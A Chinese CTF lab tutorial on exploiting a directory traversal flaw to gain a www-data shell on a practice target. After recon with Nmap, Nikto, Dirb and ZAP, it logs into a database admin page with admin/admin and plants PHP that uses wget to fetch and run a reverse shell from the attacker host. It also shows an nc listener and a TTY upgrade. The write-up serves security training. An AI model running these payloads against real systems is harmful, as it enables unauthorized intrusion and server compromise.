# CTF夺旗训练：P14：目录遍历漏洞利用与权限获取

在本节课中，我们将学习Web安全中的目录遍历漏洞。我们将通过利用该漏洞，最终获取目标主机的www-data用户权限，为后续的提权操作打下基础。

## 目录遍历漏洞简介

目录遍历漏洞，也称为路径遍历攻击。攻击者旨在访问存储在Web根目录之外的文件和目录。通过操纵带有“点-斜线”（`../`）序列或其变体的变量，或使用绝对文件路径，可以访问存储在文件系统上的任意文件和目录，包括应用程序源代码、配置文件以及关键系统文件。

需要注意的是，系统访问控制（例如在Windows操作系统上锁定文件）会限制对文件的访问。如果文件权限设置为不可读，则无法通过目录遍历查看其内容。

该漏洞也被称为点斜线目录遍历、目录爬升和回溯。

## 实验环境搭建

上一节我们介绍了目录遍历的基本概念，本节中我们来看看具体的实验环境。

*   **攻击机**：Kali Linux， IP地址：`192.168.1.106`
*   **靶机**：Linux系统， IP地址：`192.168.1.104`

我们的最终目标是获取靶机的root权限并读取flag值。所有后续操作都将围绕此目标展开。

## 信息收集与探测

在开始攻击前，我们需要对目标进行信息收集。以下是信息探测的步骤。



首先，我们需要扫描靶机开放的服务及其版本信息。这里我们使用Nmap工具。



```bash
nmap -sV 192.168.1.104
```

在Kali Linux终端中执行上述命令，Nmap将发送数据包探测目标并返回开放的服务信息。



除了服务信息，我们还可以对靶机进行更全面的探测。

接下来，我们使用Nmap进行更全面的扫描，以获取操作系统、路由等更多信息。

```bash
nmap -T4 -A -v 192.168.1.104
```

此命令将以最快速度（`-T4`）并使用所有扫描模块（`-A`）进行详细（`-v`）扫描。



如果探测结果显示靶机开放了HTTP服务（如80端口），我们可以使用专门工具进行深入探测。

以下是针对HTTP服务的探测工具介绍。

*   **Nikto**：用于扫描Web服务器的安全问题和配置错误。
    ```bash
    nikto -host http://192.168.1.104
    ```
    （如果HTTP服务运行在非80端口，需在IP后加上`:端口号`）

*   **Dirb**：用于对Web目录进行暴力枚举，寻找隐藏的目录和文件。
    ```bash
    dirb http://192.168.1.104
    ```
    （端口号使用规则与Nikto相同）

我们同时运行Nikto和Dirb进行扫描。Dirb使用内置字典对网站目录进行枚举。

扫描完成后，我们需要分析结果。Nikto可能显示服务器类型（如Apache 2.2.22）、支持的HTTP方法（GET, HEAD, POST）等。Dirb则会列出发现的可能存在的目录和文件，例如我们发现了一个名为 `/dbadmin` 的目录。

通过浏览器访问 `http://192.168.1.104`，可以看到一个商城网站。访问Dirb发现的 `/dbadmin` 目录，我们发现了一个 `testDB.php` 文件，这是一个类似phpLiteAdmin的数据库管理界面，是一个潜在的敏感入口点。

## 漏洞扫描与发现





在信息收集的基础上，我们可以使用自动化漏洞扫描器来挖掘Web应用程序的漏洞。

我们使用OWASP ZAP（Zed Attack Proxy）对目标站点进行漏洞扫描。启动ZAP后，在攻击界面输入靶机地址 `http://192.168.1.104` 并开始扫描。

扫描器会先爬取站点页面，然后进行主动漏洞扫描。扫描结束后，可以在“警报”选项卡中查看结果。不同颜色的旗帜代表不同风险等级（红色-高危，黄色-中危，浅黄色-低危）。

扫描结果中，我们发现了一个**目录遍历漏洞**（红色高危）。详情显示，访问特定URL可以读取 `/etc/passwd` 文件内容。

将漏洞详情中的URL复制到浏览器中访问，成功显示了 `/etc/passwd` 文件的内容，证实了漏洞的存在。

## 漏洞利用与WebShell上传

确认漏洞后，我们需要制定利用思路来获取系统shell。



我们的利用思路是：首先上传一个WebShell到服务器，然后通过目录遍历漏洞访问并执行该WebShell。WebShell代码中包含连接回我们攻击机的指令，从而让我们获得一个反向Shell。



首先，我们需要找到一个可以写入WebShell的入口点。之前发现的 `/dbadmin/testDB.php`（数据库管理页面）是一个潜在目标。我们尝试使用弱口令登录，使用用户名 `admin` 和密码 `admin` 成功进入后台。

在后台，我们需要寻找可以写入数据的地方。思路是：创建一个以 `.php` 结尾的数据库文件，并在其中写入包含PHP代码的字段值，这样当通过Web访问该文件时，其中的PHP代码就会被执行。

以下是准备和上传WebShell的步骤。

1.  **准备WebShell**：Kali中自带WebShell。我们使用一个PHP反向Shell脚本，并修改其中的IP和端口为攻击机的监听地址（`192.168.1.106:4444`）。
    ```bash
    # 查找并复制WebShell
    find /usr/share/webshells -name “*.php”
    cp /usr/share/webshells/php/php-reverse-shell.php /root/Desktop/shell.php
    # 编辑shell.php，修改$ip和$port变量
    ```

2.  **在数据库管理页面操作**：
    *   创建一个名为 `shell.php` 的数据库。
    *   在该数据库中创建一个表，添加一个TEXT类型的字段。
    *   在该字段中写入PHP代码，代码功能是：从攻击机下载WebShell文件，赋予执行权限，然后运行它。
        ```php
        <?php system(“cd /tmp; wget http://192.168.1.106:8000/shell.php; chmod 777 shell.php; php shell.php”); ?>
        ```

3.  **启动简易HTTP服务器**：在攻击机桌面目录启动一个Python HTTP服务器，供靶机下载WebShell文件。
    ```bash
    cd /root/Desktop
    python -m SimpleHTTPServer 8000
    ```

4.  **启动Netcat监听器**：在攻击机上打开一个新终端，监听反弹Shell的连接。
    ```bash
    nc -nlvp 4444
    ```

## 触发漏洞与获取Shell

所有准备就绪后，现在触发漏洞以获取反向Shell。

通过目录遍历漏洞，访问我们创建的恶意数据库文件。在浏览器中访问类似 `http://192.168.1.104/dbadmin/user_database/shell.php` 的URL（具体路径根据实际情况调整）。

此时，浏览器会尝试执行 `shell.php` 文件中的PHP代码。代码会从攻击机的HTTP服务器下载 `shell.php`（即我们准备好的反向Shell脚本），并执行它。





执行成功后，我们观察Netcat监听终端，可以看到成功收到了来自靶机的反向Shell连接。当前Shell的用户是 `www-data`。

获得的初始Shell可能功能不全，我们可以使用Python将其升级为一个完全交互式的TTY Shell。
```bash
python -c ‘import pty; pty.spawn(“/bin/bash”)’
```
现在，我们就在靶机上拥有了一个 `www-data` 用户的交互式Shell。

## 总结与后续

本节课中我们一起学习了目录遍历漏洞的完整利用链。

首先，我们通过Nmap、Nikto、Dirb进行信息收集，并使用OWASP ZAP发现了目录遍历漏洞。接着，我们利用找到的数据库管理后台上传WebShell，并通过目录遍历触发它，最终成功获取了靶机的 `www-data` 用户权限。

目录遍历漏洞的利用方式多样，除了配合文件上传获取Shell，还可以直接读取敏感信息（如 `/etc/passwd` 和 `/etc/shadow` 文件），用于密码破解和权限提升。获取 `www-data` 权限后，下一步就是进行提权操作以获取root权限，这将是下节课的重点内容。



本节课就到这里。